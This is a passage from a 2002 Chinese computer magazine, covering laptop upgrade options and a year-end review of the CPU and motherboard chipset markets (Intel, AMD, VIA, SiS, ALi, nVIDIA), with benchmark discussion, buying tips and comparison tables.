使用专用CPU的笔记本电脑的，主板和CPU是焊在一起的，无法更换CPU。而某些使用台式机CPU的电脑，CPU是以插座的形式连接到主板上的，反倒容易更换。笔记本的CPU通常位于键盘下方，这样更利于散热，所以更换CPU时，只要将笔记本电脑的键盘拆下，并取下CPU上的散热片，这时更换CPU的方法就和台式机完全相同了。

### 2.PCMCIA卡

对于笔记本电脑来说，PC卡插槽应该是必备的配件。虽然PC卡插槽不能直接提升笔记本电脑的速度，但PCMCIA接口就有如同台式机主板上的PCI插槽一样，可以用来扩展笔记本电脑的基本功能。举例说，如果用户的笔记本电脑是没有调制解调器的话，只要加入一块PCMCIA接口的调制解调器就可以利用笔记本电脑来访问因特网。如果你想将一些重要资料作备份，但磁盘又不能提供足够空间的话，就可使用有32MB容量的Flash卡，再加一个PCMCIA接口的Flash读卡器，就很容易将体积较大的文件备份。除此之外，一部分低价笔记本电脑没有内置网卡，若想将笔记本电脑连接上局域网的话，最方便的方法仍然是使用PCMCIA接口的网络卡。最近，惠普公司还推出了专为笔记本电脑而设的CD-RW光驱，不仅机身超薄，还内置PCMCIA接口，用户可以随时随地利用超薄笔记本电脑读写光盘。其实，PCMCIA卡插槽的用途非常广泛，除了调制解调器、网络卡、外置式储存装置外，也可以加入其他不同的电脑接口，例如IEEE 1394接口、USB 2.0接口等。所以，只要懂得如何好好利用PCMCIA插槽的话，笔记本电脑就有脱胎换骨的感觉。

### 3.鼠标

笔记本电脑的用户都希望能物尽其用，就算笔记本电脑是用于工作上，也可以在间歇时玩一些简单的电脑游戏。当然，笔记本电脑始终是笔记本电脑，整体的操作肯定与台式电脑有很大分别。比如笔记本电脑就没有鼠标(只有触控板或指点杆)，用起来会有一种不太顺畅的感觉。因此，一部笔记本电脑最需要升级的部分反而是增加一个鼠标。当笔记本电脑放在桌面上使用的时候，无论是在玩电脑游戏，或是在工作，有了鼠标都会方便得多。

### 4.电池

笔记本的电池寿命一般不会超过三至四年，它也许是用户使用过程中最可能替换的东西。笔记本电脑使用两年后，就可能发现电池消耗越来越快。可能的话可以将旧的镍氢(NiMH)电池升级为新的锂电池。但是一般来说，用户很难找到和自己笔记本电脑相同的电池，所以这种升级的可能性也很小。此外，有些笔记本电脑使用的是模块化设计，显示适配器和网络适配器都以子卡的形式连接在主板上，从而给用户提供了一些升级机会。但是这些子卡往往非常昂贵，所以用户在升级这些配件时。

（文/蓝宇）

## 年终硬件大盘点
——电脑配件评析与采购

2002年下半年，电脑配件市场呈现回暖迹象，PC市场在平静中暗藏杀机。一些新技术开始走向市场，一些新产品揭开它神秘的面纱，一些老牌厂商开始觊觎并非自己传统起家的配件市场……数码、移动、宽带、时尚等词汇的出现频率明显增加，这也预示了未来PC的发展方向。

下面，就让我们来具体看看2002年下半年电脑配件的发展情况。

### 一、CPU篇

### (一) 2002年下半年CPU市场概述

- Intel 新兵辈出争天下，AMD 老将迟暮守江山


下半年，Intel开始展示出自己在研发和推广上的优势，向AMD发起了全面进攻。在高端市场上，Intel正式发布P4 2.8GHz，进一步扩大了自己在频率上的领先优势，并在实际应用性能上也有了很大改进(如图1)；中端市场上，Intel大幅调低P4的售价，再加上铺天盖地的广告宣传，P4的品牌效应已经深入人心；低端市场上，P4核心的赛扬快马赶到，全面替代了Tulatin核心赛扬，使Intel的产品线全面向P4系列转型。市场的主动权再一次被Intel牢牢掌握。

由于 AMD 将主要精力放在了 Hammer 的研发上，因此下半年的动作显得过于迟缓，让人不免有些担心。面对 Intel 愈发凌厉的 P4 攻势，AMD 仍然只以 Thoroughbred 核心的 Athlon XP 应战(Barton 核心的产品依然查无音信)。高端市场上，为了应战P4 2.8GHz的挑战，AMD终于发布了期待已久的Athlon XP 2800 +，并采用了333MHz的前端总线，但是比P4 2.8GHz的发布晚了一个多月；中端市场上，Athlon XP由2200 +直接跳到2600 +(自 Athlon XP推出至2200 +，产品线均为每66MHz一个档次，而这次的改变完全是迫于Intel的压力，不得不靠改名的方式来宣传产品)。中端市场上AMD产品的价格优势明显，仍然把握着性价比最高的产品；在低端市场上，AMD则显得较为被动。由于没有新版Duron跟进，面对P4赛扬的冲击，AMD只有以低频Athlon XP来应战。虽然在性能上可以暂时保持领先，但在价格和品牌上的优势已经丧失，实属不得已而为之。

- 大锤呼之欲出技术领先，P4稳扎稳打占领市场

AMD 之所以在这一阶段的竞争中如此被动，主要原因就是 Hammer 耗费了他们太多的精力。从各种资料来看，Hammer 的确在技术上领先于其它产品，但在其真正走向市场后还有很多东西需要解决。一是软件优化。在P4大行其道的今天，所有的软件设计者都在为P4做优化，而 Hammer 上市后不见得会有这样的“好运”；二是系统架构。Hammer 的架构完全不同于现在的 Athlon XP，AMD 延续了多年的 Socket 462 接口也被废除，因此 AMD 也将丧失部分升级用户的支持；三是兼容性。Hammer 真正上市时的兼容性是否能跟宣传的一样好，这还要事实去验证；四为价格。由于 Hammer 复杂的设计工艺，其未来的售价也令人们担心；五为市场。AMD 的市场宣传和推广方面相对于竞争对手 Intel 来说一向较弱，尤其是在品牌机领域。因此，能否说服品牌机厂商和用户相信 Hammer 的确更为出色，也是 AMD 公司需要解决的问题。

Intel 面对即将浮出水面的 Hammer 似乎无动于衷，继续大肆推广它的 P4，一步步蚕食市场，并没有用更新内核的产品来同 Hammer 竞争的意思，只是通过增大 P4 的 L1 Cache 来同 Hammer 对抗(传闻 Intel 计划采用内部开发代号为 Nehalem 的新架构处理器来替代 P4，不过是 2005 年的事。另外，Intel 曾经对外界宣扬的 IA64 架构似乎也动作缓慢，未来的三款处理器包括 Nehalem 都是基于 IA32 架构的)。在移动领域，Intel 继续保持领先，开始全面普及 P4-M 用以取代 Pentium III 和赛扬。而用于移动领域的新版Banias处理器更是试图采用类似AMD产品命名方式的PR标称值来表明其产品的优异性能。看来，为了市场的需要，Intel的确是什么都能做。AMD的行为更像是在赌博，而Intel的行为则显示出了一个成熟公司的老到。

- C3 另辟蹊径，期待中国芯展露才华

由于 C3 无法介入到 AMD 和 Intel 的白热化竞争中去，因此 VIA 公司开始另辟蹊径。由于 C3 的浮点性能差，但整数运算并不落后，并且其发热量低，成本低廉，因此在办公用机、便携台式机和 Mini PC 中仍有市场。VIA 在 C3 的行业发展研讨会上也明确表述了占领这一市场的决心。目前，各品牌的便携台式机和一些配套的低价办公用整机市场上，我们均发现了 C3 的身影。另外，我们还得到了 VIA 计划推出 RISC 架构处理器进军 PDA 和移动电话市场的消息，我们衷心希望中国芯能有更加广阔的未来。

### (二) 2002 年下半年市场主流 CPU 产品大比拼

目前市售主流产品为 Intel P4、P4 赛扬、AMD Athlon XP，而 Willamette 核心的 P4 和 Palomino 核心的 Athlon XP 处理器已处在淘汰的边缘。

为了更直观地让大家了解每种 CPU 的特长，我们对同一档次的 CPU 做了简单的针对性测试。

在 Business Winstone2001 及 CC Winstone2002 的测试中，Northwood 内核的 P4 处理器均表现出较明显的优势(两款测试软件主要模拟 Office 2000、Lotus 等日常办公操作及 Adobe Photoshop 5.5、Dreamweaver 3.0 等网络和2D图像创作)，因此可以看出 P4 的广告语所言非虚，Northwood 核心的 P4 在办公及网络多媒体应用上的能力的确较为出色。

在 Super π 的测试中，Thoroughbred 核心的 Athlon XP 有着相当明显的优势(Super π 主要测试 CPU 的处理速度和内存带宽以及主板芯片组北桥的内存控制部分)，因此 Athlon XP 的胜出意味着 EV6 总线并未像 Intel 声称的那样落后于时代。相反，NetBurst 架构下 P4 的超长管线依然有其后遗症。不过，将 B1 核心(1.6A~2.53 的 P4 所采用的核心)更换为 C1 核心(2.8GHz P4 采用的核心)后，P4 的 Super π成绩有了比较大的提高，并且提升幅度同频率不成正比。也许在未来的 P4 高频处理器中，单位频率性能会有所提升，超长管线遗留下来的后遗症也就不再那么明显。

在 3D 图形性能及游戏的测试中，Athlon XP 和 P4 互有胜负，P4 依靠其强大的频率优势能够有效提升 3D 游戏时的速度，但在对多边形处理要求较高、画面要求较细腻的场合下，Athlon XP 则保持领先。由此看来，在 3D 制作及游戏方面 Athlon XP 完全可以胜任。

另外，在日常应用的测试中，如 MPEG4 编码、MP3 编码和多种文件压缩软件的时间测试上，P4 均占有一定优势。

从目前较新版的 Athlon XP 和 P4 上，我们发现 AMD 和 Intel 都在尽力弥补自己处理器的不足。以往 P4 由于单位频率上的性能低下，因此被人们称为高频低能，但是随着 C1 核心的 Northwood P4 的发布，P4 单位频率性能低下的情况有了相当大的改观。而且下一代的 P4 内核将使用 Hyper-Threading 技术，也将大幅度提升 CPU 的多任务处理能力。而 Athlon XP 由于其工艺所限，频率提升困难，因此不得已采用性能标称法来对产品进行命名(当然也得益于 Athlon XP 的单位频率性能出色)。随着 AMD 0.13 微米工艺的逐渐成熟，Athlon XP 的频率依然能够达到一个新的高度。而被广大 AMD Fans 期待的 333MHz 总线的 Athlon XP 处理器也在十月推出，虽然该处理器仍然没有采用 512K 二级缓存的 Barton 核心，但是 333MHz 总线的到来也足以让 Athlon XP 为 Hammer 赢得一些时间了。由于 K7 核心架构的频率限制，2800+ 也许是 Athlon XP 的最后一款产品了。

```
Athlon XP 标称值计算方法
性能标称值=工作频率× 3/2-500（适用于从 XP1600+ 到 2400+ 的所有产品）
性能标称值=工作频率× 3/2-600（适用于从 XP2600+ 及后续产品）
```

**表1 目前市场上主流CPU简介**

| 处理器类型 | Athlon XP Barton核心 | Athlon XP Thoroughbred核心 | Athlon XP Palomino核心 | Duron Morgan核心 | Pentium4 Northwood核心 | Pentium4 Willamette核心 | Pentium4 赛扬 Willamette核心 |
|------------|----------------------|----------------------------|------------------------|------------------|------------------------|-------------------------|------------------------------|
| 性能指标   |                      |                            |                        |                  |                        |                         |                              |
| 生产工艺   | 0.13 微米            | 0.13 微米                  | 0.18 微米              | 0.18 微米        | 0.13 微米              | 0.18 微米               | 0.18 微米                    |
| 晶体管数   | 5390 万              | 3750 万                    | 3750 万                | 2518 万          | 5500 万                | 4200 万                 | 4200 万                      |
| 系统总线频率 | 333MHz              | 266MHz                     | 266MHz                 | 200MHz           | 533/400MHz             | 400MHz                  | 400MHz                       |
| 总线结构   | EV6                  | EV6                        | EV6                    | EV6              | NetBurst               | NetBurst                | NetBurst                     |
| 一级缓存   | N/A                  | 128KB                      | 128KB                  | 128KB            | 16KB                   | 16KB                    | 16KB                         |
| 二级缓存   | 512KB                | 256KB                      | 256KB                  | 64KB             | 512KB                  | 256KB                   | 128KB                        |
| 工作电压   | N/A                  | 1.65V                      | 1.75V                  | 1.75V            | 1.5V/1.525V            | 1.75V                   | 1.75V                        |

### (三) 主流 CPU 选购一家谈

当前 CPU 的速度发展远远超过了应用软件的需求，P4 1.6A 和 P4 2.0A 在日常应用中表现出来的性能差距并不明显。因此，笔者认为根据自己的应用需要选择适合自己的产品才是明智的选择。另外，由于主流 CPU 的主频都已经很高，因此对周边设备的带宽需求也相应提高，像 SDRAM 这种落后的内存肯定无法满足当前主流 CPU 的需要。

P4 赛扬使用的是濒于淘汰的 Willamette 核心，并且被拿去了一半二级缓存，因此其各项性能表现均不能令人满意。但是由于其低廉的价格，还是能够吸引那些对性能要求不是很高的用户。从目前看来，P4 赛扬只是一款过渡性产品（类似于老 P4），从 Intel 市场策略来看，Northwood 核心的赛扬很快便会出现在市场上。如果今后不打算更换 CPU 还是选择 Morgan 核心的 Duron 或低频的 Athlon XP 更合适，而且 Duron 的价格优势更明显。

中端市场的选择最为复杂，Athlon XP 和 P4 各有千秋，难以取舍。从价格上说，Athlon XP 占有明显优势，一套采用 Athlon XP 的机器(除配套主板外其余配件相同)可以比采用 P4 的便宜几百元。不过，红红火火的 845 系列主板却使人们更多地将目光投向 P4。从稳定性上说，目前 Athlon XP 已经发展得相当成熟，Athlon 面世初期的一些 Bug 和兼容性问题早已解决，这方面已经不再是选择 Athlon XP 的最大障碍。而从发热量上说，Athlon XP 和 P4 也处于同一水平线，P4 丝毫不比 Athlon XP 凉快。但在封装形式上 P4 则显得更为安全(虽然 Athlon XP 的内核不再像以前的 Athlon 和 Duron 那样脆弱，但是核心暴露在外面毕竟构成了安全隐患)。从可升级性上看，Athlon XP 和 P4 应该处在同样的位置。AMD 的下一代处理器 Hammer 肯定将不再沿用使用二年之久的 Socket 462 插座；而 Intel 的规格变化之快恐怕大家有目共睹，Socket 370、Socket 423 和 Socket 478 同时出现在市场上，而 Socket 370 还有多种版本。总之，用户可以完全抛弃升级的期望来选择适合自己的 CPU。

在高端市场上则没有那么多悬念，P4 的超高频率和 C1 内核保证了它在各方面的领先优势。不过选购高频 P4 也有需要顾及的地方：目前的 P4 主板并不支持高于 3GHz 的产品，如果要支持高于 3GHz 的CPU，则需要对主板的供电部分做重新设计。而 845GE/PE 系列产品也并不支持未来的 Hyper-Threading 技术。在 Hammer 得到市场认可之前，高频 P4 仍然是高端市场的最佳选择。

### (四) 选购注意事项

目前，市场上的 P4 有盒包和散包两种。盒包 CPU 享受 Intel 三年质保，而散包则由 CPU 的销售柜台提供一年质保。二者有 80～200 元的差价。需要注意的是，市场上很多盒包 P4 并非 Intel 的原装产品，而是散包产品在南方封盒后流入市场充当盒包产品销售的。分辨这类产品最简单的方法就是查看 CPU 包装上的产品批号和 CPU 表面的批号是否一致，如不一致则肯定为假冒盒装产品。Athlon XP 最近市场上也出现了盒包产品，且包装种类繁多。但由于 Athlon XP 盒装产品与散装产品价格差距太大，且盒装产品的来源尚不明了，因此不推荐购买盒装的 Athlon XP。

另外，在选购 CPU 时应注意底面针脚是否弯曲，核心是否有缺陷。如果这两方面有问题而自己没有注意的话，商家是不负责保换、保修的。在安装时，作为商家销售凭证的易碎签也应尽量远离 CPU 核心部分，以免影响散热。

Athlon 处理器有 ThunderBird、Palomino 和 Thoroughbred 三种核心，区分这三种 CPU 也成了用户选购时的难题。仔细看看下面的图，分清他们的区别了吗(如图 2)？另外，Thoroughbred 在产品型号标记上也与以往有所不同，CPU 的正面左侧出现了一


图 2 三种 Athlon 比较，顺序为从左到右

块黑色区域，上面除了印有 AMD Athlon 之外，还有 CPU 的出厂序号、频率版本、工作电压和最大耐热温度等。这一点不同于 AMD 产品在 CPU 核心表面标记型号的方法，也是鉴别 Thoroughbred 核心 Athlon XP 的方法之一（如图 3、图 4）。

采用 Morgan 核心的 Duron 和以前的老 Duron 也有所不同，具体的情况请看下图（如图 5、图 6）。大家在购买前一定要认准产品的内核，以免发生奸商以老充新。区分 Northwood 和 Williamette 核心 P4 的方法比较简单，由于 2.0GHz 以后的 CPU 产品都采用 Northwood 核心，而 2.0GHz 以前的 Northwood 核心的产品在频率后面都标有字母“A”，而商家通过打磨作假的可能性微乎其微（为了一个核心作假不划算），因此 P4 的核心问题应该不会对大家构成困扰了。

### 二、主板篇

### （一）芯片组

由于 CPU 的架构分化为 Athlon XP 和 P4 两大阵营，因此芯片组市场也随风而动，分化成分别支持两者的对立阵营。

### 1. P4阵营

在 P4 市场上，Intel 的芯片组仍然扮演着主力军的角色。由于受 Intel 和 Rambus 的协议限制，Intel 只得避开 DDR 推出了仅支持 SDRAM 的 i845S 的“鸡肋”芯片组，但是 i845S 的市场表现超乎想象，随后 Intel 向 Rambus 支付了巨额违约金，促使 i845D 提前上市。事实证明这一决断是非常正确的，i845D 的大获成功很快便挽回了 Intel 的损失。如今，i845 系列已经成为了 P4 市场的主力军，而 850 则继续保持着在高端市场上的统治地位。

Intel 推出了针对 OEM 和零售市场的 i845G、i845E 和 i850E 三款芯片组，以配合前端总线为 533MHz P4 的上市，既完善了自己的产品线，又打击了那些提前推出支持 533MHz 前端总线的台湾芯片组厂商。在这三款产品中，i845E 是在 i845D 的基础上增加了对 533MHz 前端总线的支持，其余方面则变化不大；在内存支持方面，它仍然只支持 4 个 DDR 内存 Bank，最多支持 2GB 的 PC2100（DDR266）或 PC1600（DDR200）内存。i845E 芯片组中的 ICH4 芯片比 i845D 的 ICH2 芯片的面积大了不少，主要是加入了对 USB2.0 标准的支持，而且 USB 接口的数量也由原来的 4 个增加到了 6 个（如图 7）。以前那些支持 USB2.0 标准的主板大都是通过集成附加的 USB2.0 控制芯片来实现这一功能的，因此会增加一定成本。而 i845E 的这一改进也在一定程度上为主板厂商节省了制造费用。

i845G芯片组则是在i845E的基础上整合了Extreme Graphics图形核心（核心频率200MHz），主打OEM市场和低端零售市场。其提供的图形核心宣称可以达到nVIDIA GeForce2 MX200的水平，但是经测试验证，在3D游戏方面与MX200相比仍有一定差距。不过就i845G的市场定位来看，图形核心的脆弱并不会对i845G的市场前景带来不利影响（如图8）。

i850E芯片组是在原来的i850芯片组的基础上演变而来的，它由82850E MCH（Memory Controller Hub）内存控制芯片和82801BA ICH2（I/O Controller Hub）输入输出控制芯片构成，两者之间的数据带宽为266MB/s。同i845E和i845D的关系类似，i850E芯片组相对于原来的i850芯片组也只是加入了对533MHz前端总线的支持，但它所使用的ICH芯片仍是原来的ICH2，而不是i845E所使用的ICH4，这就导致一般的i850E主板只能通过增加USB2.0控制芯片方法来实现对USB2.0的支持。在内存方面，最初的i850E被Intel官方宣称只支持PC800规格的RDRAM，但实际上许多i850E主板都提供了对新一代PC1066规格的RDRAM的支持。因此改进版的i850芯片组很快推出，并正式支持PC1066规格的RDRAM。

从主板厂商在内存设置方面做的超前设计来看，Intel在内存方面明显保守许多。正是在这种情况下，Intel又推出两款新的芯片组i845PE/GE用以替代i845E/G。这两款新的芯片组带来的改变也不算多，在内存方面正式提供了对DDR333的支持。i845PE/GE还提供了对未来P4 Hyper-Threading技术的支持（以前的i845E/G通过更新BIOS也可支持此技术）。另外，i845GE的显示核心频率还由i845G的200MHz提升到了266MHz，一定程度上提升了显示系统的性能。除此之外，Intel还有搭配赛扬面向低端市场的芯片组产品i845GV（仅支持DDR200/266图形核心的产品，见表2）。

做为台湾芯片组厂商的领军人物，VIA自然不会对如此大的P4市场坐视不理。虽然VIA在P4芯片组的技术开发授权上一度与Intel有过纠纷，但这并没有影响VIA在P4芯片组市场上的表现。VIA先后推出了P4X266、P4X266A、P4X333和P4X400等四款支持P4的芯片组。这四款芯片组中，除了最早的P4X266不支持533MHz前端总线的P4外，其余三款都能很好地支持533MHz前端总线的Northwood核心P4，目前市场上流行的也是这后三款产品。

P4X266A由VT8753A北桥芯片和VT8233A或VT8233C南桥芯片构成，两者之间采用了VIA独有的266MB/s带宽的V-Link技术连接。VIA在P4X266的基础上改进了内存控制器，从而提高了内存性能和系统整体性能。做为前一款产品的替代品，P4X266A成功地完成了使命。由于P4X333的种种不成熟，P4X266A目前仍活跃在市场上。

P4X333芯片组由VT8754北桥芯片和VT8235南桥芯片组成，两者之间通过VIA独有的533Mbps带宽的V-Link技术连接，它支持DDR333内存和ATA133硬盘传输规范，同时还提供了对AGP8X的支持。这款芯片组的性能相当不错，但由于上市时间较晚，而且价格较高，因此市场反应并不热烈。

表2 Intel芯片组比较
| 芯片组 | 支持内存 | 支持FSB频率 | AGP 界面 | USB |
| :--- | :--- | :--- | :--- | :--- |
| Intel 850E | PC1066 / PC800 | 533MHz/400MHz | AGP4X | USB 1.1 × 4 |
| Intel 845GE | DDR 333/266 | 533MHz/400MHz | AGP4X + 图形核心 | USB 2.0 × 6 |
| Intel 845PE | DDR 333/266 | 533MHz/400MHz | AGP4X | USB 2.0 × 6 |
| Intel 845GV | DDR 266/200 PC133 SDRAM | 533MHz/400MHz | 集成图形核心 | USB 2.0 × 6 |

宽的V-Link技术连接，是P4X266A的两倍（如图9）。除了支持533MHz前端总线P4处理器外，还正式提供了对DDR333的支持。P4X333也是第一款正式支持AGP8X的芯片组，其显示带宽比AGP4X提高了一倍，达到了2.1GB/s。但是由于目前AGP8X的炫耀价值大于实用价值，因此这点对芯片组的性能几乎没有影响。另外从P4X333开始，南桥芯片VT8235增加了对USB2.0的支持，这点类似于Intel的ICH4芯片。在同Intel的i845E芯片组的对比测试中，P4X333的表现还算不错。虽然VIA被人长期诟病的磁盘性能依旧没有改观，但是由于内存带宽上的优势，在3D图形性能和系统综合性能上并不处于下风。因此P4X333在游戏、多媒体等应用上和i845E处在同一水平线上。不过令人遗憾的是，P4X333在主板厂商那里出了问题。大多数的P4X333主板南桥芯片仍然采用P4X266A配套的VT8233A，也没有开启AGP8X功能和支持533MB/s的V-Link连接技术。因此，市场上众多的P4X333主板更像是一款支持DDR333内存的P4X266A。这导致了P4X333的市场表现比较糟糕，在同i845E的较量中没有占到丝毫便宜（如图3）。

P4X400的推出是VIA针对P4芯片组市场做出的战略调整。P4X400的名字比较迷惑人，因为P4X266/266A正式提供了对DDR266内存的支持，P4X333提供了对DDR333的支持，因此在人们的印象中，P4X400的推出肯定提供了对DDR400的支持。然而由于DDR400规范的混乱，所谓的对DDR400的支持成了一句空话，因为多数的DDR400内存却都不能很好地运行于P4X400系统下。而除了这个模糊的对DDR400的支持外，P4X400相对于P4X333并没有任何改进。因此这款不带A的芯片组又成为了人们争论的焦点。不过由于VIA至今未取得Intel的P4总线授权，也没有相关的“技术支持”，凭借自己的研发队伍开发出能同Intel正面竞争的产品，我们也应当对它表示尊敬了（如图10、图11）。

#### 小道消息：

据说P4X400芯片组的继任者P4X600和P4X800也有了新的发展动向。P4X600支持400/533MHz的前端总线，提供对双通道DDR266和DDR333支持，支持AGP8X。这款芯片组将定位于高端桌面以及服务器和工作站市场；P4X800芯片组可以支持QBM内存，还将加入Ultra V-Link的支持，搭配VT8237南桥芯片从而支持Serlia ATA接口。

同VIA一样，SiS也是台湾的老牌芯片组厂商之一。在P4芯片组市场上，SiS正式取得了Intel的P4总线授权，因此同VIA不同，它的产品是被Intel“承认”的。SiS支持P4的芯片主要是SiS645DX和SiS648，至于这两款产品和VIA及Intel的细节对比，如表3所示。

表3 SiS、VIA、Intel芯片组对照
| 芯片组 | SiS648 | SiS645DX | VIA P4X400 | VIA P4X333 | Intel 845G |
|---|---|---|---|---|---|
| 北桥芯片 | SiS648 | SiS645DX | VT8754 | VT8754 | 82845G |
| 南桥芯片 | SiS963 | SiS961B | VT8235 | VT8233A | 82801DB |
| 系统总线 | 400/533MHz | 400/533MHz | 400/533MHz | 400/533MHz | 400/533MHz |
| 南北桥连接技术 | MuTIOL | MuTIOL | V-Link Hub | V-Link Hub | Intel Hub |
| 南北桥连接带宽 | 1GB/s | 533MB/s | 533MB/s | 533MB/s | 266MB/s |
| 最大内存容量 | 3GB | 3GB | 3GB | 3GB | 2GB |
| 内存类型 | DDR266/333 (OC400) | DDR266/333 | DDR266/333 (400 Limited) | DDR266/333 | DDR266/333 |
| 最大内存带宽 | 3.2GB/s (OC400) | 2.7GB/s | 3.2GB/s (400 Limited) | 2.7GB/s | 2.7GB/s |
| PCI插槽数 | 6 | 6 | 5 | 5 | 6 |
| USB支持 | 2.0/1.1 | 1.1 | 2.0/1.1 | 1.1 | 2.0 |
| USB接口数 | 6 | 6 | 6 | 6 | 6 |
| IEEE1394支持 | Yes | N/A | N/A | N/A | N/A |
| IEEE1394接口数 | 3 | N/A | N/A | N/A | N/A |
| AGP接口类型 | 8x | 4x | 8x | 8x | 4x |
| ATA接口类型 | 133MB/s | 133MB/s | 133MB/s | 133MB/s | 100MB/s |

SiS芯片组的特征就是在技术设计上领先于竞争对手，在对手的新产品没有推出之前使自己的产品能保持绝对领先，但这种领先通常是建立在对手的同档产品尚不完善的基础上的，如当年的SiS735和VIA的KT266的性能对比。而当KT266A出现后，SiS735就将性能的王冠交了出来。这次的P4芯片组也是如此，由于SiS648能够比较好地支持DDR400，因此在使用DDR400内存的情况下，性能表现很好，除了在商业磁盘性能上落后于对手外，其余测试均保持领先。但在使用DDR333的情况下，SiS648同i845E以及P4X400相比则优势全无。不过，同厂商的SiS芯片组主板价格比采用VIA芯片组的产品还要低，再加上SiS以往被人们所诟病的兼容性问题得到了较大改进（可能是由于得到了Intel授权的缘故），目前SiS的芯片组在市场上仍是有较强的竞争力。

### 2. Athlon XP阵营

由于AMD不像Intel那样具有自己研发和推广芯片组的实力，因此Athlon XP的芯片组基本上都由台湾厂商所提供。再加上有意进军芯片组市场但得不到Intel授权的nVIDIA，Athlon XP的芯片组市场则显得杂乱了许多。

与Intel称霸P4芯片组市场不同，在Athlon XP芯片组的市场占有率上，VIA则独占鳌头。由于和AMD合作以久，再加上自身研发实力强大，因此Athlon XP在VIA芯片组下的表现往往略胜一筹。经历了KT266的黯淡和KT266A的辉煌，VIA再接再厉推出了KT266A的后续产品KT333。KT333芯片组由VT8367北桥芯片和VT8233A南桥芯片构成，两者之间通过VIA独有的266MB/s带宽的V-Link总线技术连接，这点类似于P4X333。KT333在KT266A的基础上增加了对DDR333的支持，同时也并未放弃对PC133和VCM（Virtual Channel Memory，NEC开发的内存标准）的支持。但是鉴于同Athlon XP的搭配问题，多数主板都没有提供这两种内存插槽。在显卡接口方面，KT333仍仅支持AGP4X规格。在这里值得一提的是，由于采用了V-MAP（VIA Modular Architecture Platform，可模块化架构平台）结构，KT333可以搭配多种VIA系列的南桥芯片。除了VT8233A，还包括整合了3Com以太网络控制芯片的VT8233C和较老的VT8233以及未来的VT8235，因此KT333芯片组留给厂商的余地更大，厂商可以根据市场状况任意选择南桥芯片搭配不同型号的主板。

另外，VIA还推出了KT400芯片组，采用了VT8377的北桥芯片和VT8235的南桥芯片搭配。细心的读者一定可以推断出KT400是相对于KT333的改进版。没错，KT400的南北桥芯片之间通过533MB/s带宽的增强型8X V-Link连接，并支持AGP8X显示接口。但是令人遗憾的是，VT8377并不能很好地支持市面上所有的DDR400产品，而只标称支持DDR333，与KT400的名字似乎有些不匹配。在Athlon XP已经推出采用333MHz的产品之时，VIA的KT系列则显得有些保守和落伍，看来我们只有期待KT400A的出现了。

SiS在Athlon XP芯片组市场上相对于VIA则显得有些动作缓慢。SiS735曾经在Athlon平台上取得了性能之冠，但是在被KT266A打了个漂亮的翻身仗后，SiS似乎一蹶不振。SiS735的后继产品SiS745并没有带来多大的市场冲击（也与VIA的战略有关，VIA曾经以降低芯片组出货价为诱惑，限制主板厂商采用SiS的产品）。目前采用SiS芯片组的主板厂商也非常少。SiS735/745可以支持DDR333，南北桥总线也采用了SiS自己开发的单芯片设计和Multi-Threaded I/O Link技术，且带宽达到了1.2Gbps。但SiS芯片组在内存性能上始终是一个弱项，而且兼容性问题也比较多。在SiS745之后，SiS推出了支持DDR400的SiS746芯片组，但在支持两条DDR400内存上也有所限制，只能支持最多两条DDR400内存同时工作。虽然SiS 746芯片组在搭配了SiS963南桥芯片后可以支持USB2.0和IEEE1394接口，但采用SiS746芯片组的主板厂商仍非常少，仅有精英等几家同SiS关系非常好的主板厂商推出了SiS芯片组的主板。因此目前SiS芯片组的主板产品还无法对VIA构成太大威胁。

台湾芯片组的三大厂商目前还差ALi没有登场亮相了。虽然ALi也得到了Intel的P4芯片组授权，但是由于一些原因我们始终无法在市场上找到采用ALi芯片组的P4主板。在Athlon XP平台上，ALi则稍微好过一些，ALiMAGiK1芯片组被多家主板厂商所采用。ALi先后推出了两个版本的Athlon XP芯片组，都采用了ALiMAGiK1的命名方式，因此容易让消费者产生一定误会。新版本的北桥芯片为M1647C1，南桥芯片为M1535D + A1，提供了对DDR333的支持。但是ALiMAGiK1芯片组仍然采用落后的PCI总线，南北桥带宽仅为133MB/s，对系统的整体性能影响不小。不过这款芯片组的磁盘性能还算不错，再加上比VIA和SiS更低廉的价格，ALi的新款ALiMAGiK1芯片组也很适合商用。

nVIDIA在显示芯片领域一直保持领先，当年率先提出了GPU显示处理单元这一概念后（芯片即是处理器），成为显示芯片技术的一大革新。而当nVIDIA迈入芯片组市场后，也率先提出了平台处理器这样的类似于GPU的概念：即把传统的北桥芯片称为整合图形处理器（IGP），将传统的南桥芯片称为媒体通讯处理器。

器(MCP)，南北桥连接部分也不再采用传统的连接方式，而使用了由 AMD 研制的 HyperTransport(超级传输总线)高速总线。基于这些理念，nVIDIA 推出了第一款芯片组产品 nForce。但由于初涉芯片组市场，nVIDIA 的经验不足，所有的 nForce 都集成了图形核心，增加了成本，再加上成本主板上市的时间距离芯片组发布的时间较长，因此错过了商机。虽然 nForce 并没能给芯片组市场带来太大的影响，但是 Intel 看到了 nForce 这种设计思路的巨大潜力，由于害怕影响自家芯片组的销售，也就没有给 nVIDIA 生产 P4 芯片组的授权书。由于没有 Intel 的授权，nVIDIA 继续开发的 nForce2 也仅是面向 Athlon XP 平台。至于 nForce2 的特性以及同 VIA 等产品的异同，如表4所示。

表4 Athlon XP芯片组特性一览

| 芯片组名称 | nForce2 | nForce2 | nForce2 | VIA KT400 | VIA KT333 | SiS 746 | SiS 745 |
|---|---|---|---|---|---|---|---|
| 北桥 | nForce2 SPP | nForce2 IGP | nForce2 IGP | KT400 | KT333 | SiS 746 | SiS 745 |
| 南桥 | MCP | MCP-T | MCP | VT8235 | VT8233A | SiS 961 | SiS 961 |
| 最高外频 FSB | 333MHz | 333MHz | 333MHz | 266MHz | 266MHz | 266MHz | 266MHz |
| 内存种类 | PC3200 DDR SDRAM | PC3200 DDR SDRAM | PC3200 DDR SDRAM | PC2100 DDR SDRAM | PC2700 DDR SDRAM | PC2700 DDR SDRAM | PC2700 DDR SDRAM |
| 有效内存时钟频率 | 400MHz | 400MHz | 400MHz | 266MHz | 400MHz | 333MHz | 333MHz |
| 内存总线位宽 | 双通道 64 bits | 双通道 64 bits | 双通道 64 bits | 64 bits | 64 bits | 64 bits | 64 bits |
| 最高内存带宽 | 6.4GB/s | 6.4GB/s | 6.4GB/s | 2.7GB/s | 3.2GB/s | 2.7GB/s | 2.7GB/s |
| 最大内存容量 | 3GB | 3GB | 3GB | 4GB | 4GB | 3GB | 3GB |
| AGP界面 | AGP8X | AGP8X | AGP8X | AGP8X | AGP4X | AGP8X | AGP4X |
| 整合图形核心 | GeForce4 MX GPU | 否 | GeForce2 MX GPU | 否 | 否 | 否 | 否 |
